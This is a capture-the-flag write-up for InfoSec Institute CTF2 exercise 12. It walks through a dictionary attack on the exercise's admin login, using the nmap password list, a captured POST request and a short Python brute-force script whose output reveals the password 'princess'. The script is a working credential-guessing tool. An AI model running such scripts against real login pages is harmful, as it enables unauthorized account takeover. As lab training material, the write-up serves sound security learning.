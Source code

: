 # Dictionary Attack

1.	As first step, let's try to find a password list as suggested
	(`filetype:lst password`)

		https://www.google.com/search?q=filetype%3Alst+password&ie=utf-8&oe=utf-8

	The first result is a wordlist from `nmap` SVN website. It should be ok.

		$ wget https://svn.nmap.org/nmap/nselib/data/passwords.lst

	Well. We'll use it later..

2.	Since this is a dictionary attack, our goal is to try all the passwords
	contained in the wordlist that we just downloaded. To perform this task we
	could use the "Intruder" from Burp Suite or write a simple Python script.
	We'll follow the second approach...

3.	As first thing, we need to know what data is posted. By using a local proxy
	(I'm using `nc`), posted data seems to be the following

		$ nc -l 9999
		POST http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php HTTP/1.1
		Host: ctf.infosecinstitute.com
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/40.0
		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
		Accept-Language: en-GB,en;q=0.5
		Accept-Encoding: gzip, deflate
		DNT: 1
		Referer: http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php
		Cookie: PHPSESSID=4vl34nu5g2vg5iogbe5l4k7aa6; welcome=no; user=Sk9ITitET0U%3D
		Connection: keep-alive
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 42

		username=admin&password=secret&logIn=Login

	Take a note...

4.	Remove from `passwords.lst` all the lines starting with

		#!comment:

4.	Put the following lines in a `.py` file (e.g. `ex12.py`)

		import requests

		TARGET = "http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php"

		with open('passwords.lst') as f:
			passwords = f.readlines()
		f.close()

		for p in passwords:
			pwd = p[:-1]
			s = requests.Session()
			# username=admin&password=secret&logIn=Login
			data = {'username': 'admin', 'password': pwd, 'logIn': 'Login'}
			r = s.post(TARGET, data=data)
			print "admin|%16s|%d" % (pwd, len(r.text))

5.	Run the script. It will print out, for each attempt, the tuple

		username|used password|response's length

	As we can see in the following, `princess` password generates a response
	that is less then others

		$ python ex12.py
		admin|          123456|4880
		admin|           12345|4880
		admin|       123456789|4880
		admin|        password|4880
		admin|        iloveyou|4880
		admin|        princess|4731 <-- !!!
		admin|        12345678|4880
		admin|         1234567|4880
		admin|          abc123|4880
		admin|          nicole|4880
		admin|          daniel|4880
		[...]

6.	Try to use `admin` and `princess` as credentials... ;-)

[Go to Ex11](./ex11.md) | [Go to Ex13](./ex13.md)
